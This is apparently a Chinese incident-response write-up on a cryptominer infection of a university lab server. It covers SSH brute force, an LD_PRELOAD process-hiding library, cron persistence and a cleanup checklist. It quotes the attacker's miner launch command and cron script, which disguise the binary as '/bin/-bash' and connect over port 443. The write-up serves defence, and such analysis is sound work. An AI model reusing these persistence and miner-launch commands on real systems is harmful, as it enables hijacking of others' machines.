

# 挖矿病毒应急响应


## 环境

Ubuntu Server 24.04 LTS 

实验室服务器（IP：192.168.135.219，型号：Dell PowerEdge R7625，配备 A100 GPU）

## 时间

2025年6月11日 22:53 左右

## 事件描述

2025年6月11日 22:53 左右，实验室服务器（IP：192.168.135.219，型号：Dell PowerEdge R7625，配备 A100 GPU）在安全日志中被发现遭到来自 IP 地址 `172.31.178.172` 的多次非法登录尝试，攻击方式疑似为暴力破解 root 用户密码。结合服务器运行状态和历史行为分析，初步判断服务器已经被用于非法挖矿。


## 客户简单自查

1. 排查与初步处理

登录日志审查，利用 sudo grep "Failed password" /var/log/auth.log 检查了近期 SSH 登录记录；

发现攻击 IP 多次尝试使用 root 用户登录，并最终成功登录。可疑进程排查与识别

通过 `top`、`htop`、`ps auxf`、`pstree` 等命令观察异常高 CPU 占用；

使用 `find / -name "*xbcpdch*"` 定位到恶意挖矿程序 `/bin/xbcpdch`；

恶意进程以隐藏方式运行，并通过伪造的 `-bash` 执行伪装启动命令：

```
cp -f -r -- /bin/xbcpdch /bin/-bash 2>/dev/null && /bin/-bash -c -pf /tmp/.locker -p 443 -tls -k -m simple >/dev/null 2>&1 && rm -rf -- /bin/-bash 2>/dev/null
```

用户账户与公钥审查，利用 `cat /etc/passwd` 查看所有系统用户，确认没有新增可疑账户；

通过 `find /home /root -name authorized_keys` 审查所有用户的 SSH 公钥，发现多个用户目录下含有相同的攻击者公钥，说明已被统一植入后门；

受影响用户包括：`root`、`ice`、`ubt`、`rfuser`、`rf_task2_dev1`、`rf_task2_dev2`。


2. 处置措施

阻断远程攻击入口，编辑 `/etc/ssh/sshd_config`，禁用 root 用户远程登录：

```
PermitRootLogin no
```

限制 SSH 登录白名单，仅允许以下用户远程连接：

```
AllowUsers ubt ice rfuser rf_task2_dev1 rf_task2_dev2
```

重启 SSH 服务：

```
sudo systemctl restart ssh
```

密码更新与用户安全加固，立即修改了以下用户密码：`ice`、`ubt`；

目前正在清理后门文件与进程，启用 Fail2ban 防暴力破解失败，故采用白名单策略


## 应急团队处理

### 事件概述

深圳大学信息中心收到来自学校某实验团队的应急响应请求，安全团队快速完成了对报警主机的排查分析工作，得到如下结论：

**样本危害：**此次取证样本为挖矿木马，该木马至少于 2025 年6 月出现，样本危害如下：

1. 长时间占用CPU进行挖矿活动，严重影响用户科研进展；
2. 通过添加定时任务，注入指定so等行为保活，隐藏自身进程，并阻止用户发现，从而达到长期稳定霸占用户服务器的目的；

**传播途径：**该病毒通过攻击者扫描弱密码账户登陆服务器后，提取手动进行传播。

**攻击目的：**占用服务器资源，从事非法挖矿活动。

**后续建议：**

1. 增强密码管理规范，不要使用弱密码，定期更换密码；对不使用的账户及时删除

2. 加强生产服务器内部威胁监控，尤其是失陷监控，可通过安装安全软件进行实时监控，及时发现内网失陷主机；

3. 及时升级系统补丁，对于来源不明的软件或者文档，进行多引擎查杀，避免漏报，并向及时学校信息中心反馈；

4. 信息中心协助封禁疑似被外部攻击者攻陷的僵尸主机，阻止恶意挖矿文件在校内进一步传播。

5. 建议在进行完实验，拷贝并备份完必要数据后，对服务器格式化重装。


### 感染现象

​	此次木马为恶意挖矿木马，感染后会连接木马 C2 域名如services.sshd.services；并修改/etc/ld.so.preload，添加/usr/local/lib/libprocesshider.so进行进程隐藏，之后开始挖矿行为，长期占用服务器CPU。


### 取证过程

查询端口，监听着一个ip:443，疑似用来下载一些挖矿程序的地址，请求过去已经被转移了。


然后统计了爆破账号口令的ip，发现两个可疑的八十多万次和4万多次的ip地址


并且通过更多日志文件信息和用户自述，发现主要是ice账户的口令被爆破出来获取更高的权限。

发现从6月9日晚8时起，192.168.152.46一直尝试登陆，于6月11日20点左右成功登陆。

top查看和显卡信息查看并没有很明显的痕迹。进程杀不了。


auth.log登录日志重点信息如下：


可以发现一些cc.systemctl.cc以及.so文件的利用角度

```
/srv/lynis-w3m
/usr/local/lib/libprocesshider.so
/etc/ld.so.preload
/lib/ftp-tee
/bin/hxvin
```

查看该路径的


#### /syv/lynis-w3m


病毒从此处入侵，然后创建多个隐藏进程进行挖矿


该木马文件创建了大量的隐藏进程从而阻止用户发现并清除，同时创建多个cron文件

定时任务：

`misvnc`

```
#!/bin/bash
cp -f -r -- /bin/hxvin /bin/-bash 2>/dev/null
cd /bin 2>/dev/null
./-bash -c  -pf /tmp/.locker -p 443 -tls  -k -m simple >/dev/null 2>&1
rm -rf -- -bash 2>/dev/null
```

`mail.fpc`


这些隐藏进程也正是计划任务中所示的，并且二进制分析加了简单的upx壳。


#### /usr/local/lib/libprocesshider.so

这个我懂啊，后门文件里面一些经典的操作：

```
chattr +i evil.php 锁定文件
lsattr  evil.php   属性查看
chattr -i evil.php 解除锁定
rm -rf 1.evil.php  删除文件
```

权限维持篇具体查看https://bypass007.github.io/Emergency-Response-Notes/privilege/%E7%AC%AC3%E7%AF%87%EF%BC%9ALinux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81--%E9%9A%90%E8%97%8F%E7%AF%87.html


libprocesshider.so本来就是进行进程隐藏的利用 LD_PRELOAD 来实现系统函数的劫持。这也是挖矿病毒的常见做法，让用户无法直接查找到进程。


然后攻击者把这个藏了一点东西，但是用的确实前人写的程序，该样本在2019年的微步沙箱有检出


#### /bin/hxvin

这个程序就是攻击者自己写的了，因为样本是最新检出的




但是本质上就是一个挖矿的程序。有一层upx进行数据压缩，查看网络配置、读取/etc/passwd还有获取cpu内存等的信息，关键是指定IP进行TCP链接。沙箱已经检测到门罗币等挖矿样本。

以及我们通过去壳逆向查看函数也发现了一些门罗币的特征：


### 解决方法

执行任何命令出现以下提示

```csharp
ERROR: ld.so: object '/usr/local/lib/libprocesshider.so' from /etc/ld.so.preload cannot be preloaded: ignored.
```

解决方法

```bash
echo "" > /etc/ld.so.preload
```


# 总结（直接看最后面）

## 用户信息

- 修改口令，全部使用强口令

- 删除影子用户或者新建的用户

```
cat /etc/passwd
cat /etc/shadow
```

- 排除可以SSH链接的账户

```
cat /etc/passwd | grep -v 'nologin\|false'
```

- 排除UID是0的超级权限用户

```
cat /etc/passwd | awk -F: '$3==0 {print $1}'
```

- 查看SSH公钥

```
cat /root/.ssh/authorized_keys
```


## 命令篡改

- alias之类防止有命令别名，有的话请删除

```
alias
find / -name *bashrc* -type f -exec ls -lctr --full-time {} \+ 2>/dev/null
```

- 而且有时候他会绑定命令在一些常用的系统命令上，比如你输入ls就运行了恶意程序


## 可疑IP和端口

- 查看爆破行为的可疑IP出现次数

```
cat /var/log/auth.log | grep "sshd" | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" | sort | uniq -c | sort -nr
```

- 查看端口监听，立马ban掉

```
netstat -anp | grep ESTAB
```


## 可疑进程

- top命令查看占用率高的进程（不过一般都会隐藏）
- 查看挖矿进程

```
ps -aux
```

- 再次排查所有进程

```
pstree -asp
```

- ==使用unhide查看隐藏进程==

```
apt install unhide
unhide proc
```

- 隐藏进程也可以通过下面的方法进行对比

```
ps -ef | awk '{print}' | sort | uniq > 1
ps -ef | awk '{print}' | sort | uniq > 2
diff 1 2
```


## 自启动任务

```
cat /etc/rc.d/rc.local
ll /etc/systemd/system/
ll /etc/systemd/system/multi-user.target.wants/ #该目录是存放多用户模式下启动服务的符号链接的地方。
```

或者直接查看服务：

```
systemctl list-unit-files --type=service | grep enabled
```


## 计划任务

- 修改计划任务。攻击者一般会修改所有周期的计划任务，所以请全部进行修改。


## 日志信息

- 查看日志或者history信息，查看攻击者具体的攻击手段。


## 木马文件

- 寻找到木马文件之后，可以将文件进行保存。放入微步沙箱中进行检查，可以查看样本数据的最早日期，进而判断病毒的危害以及处置方法。
- 在服务器上删除所有木马文件！


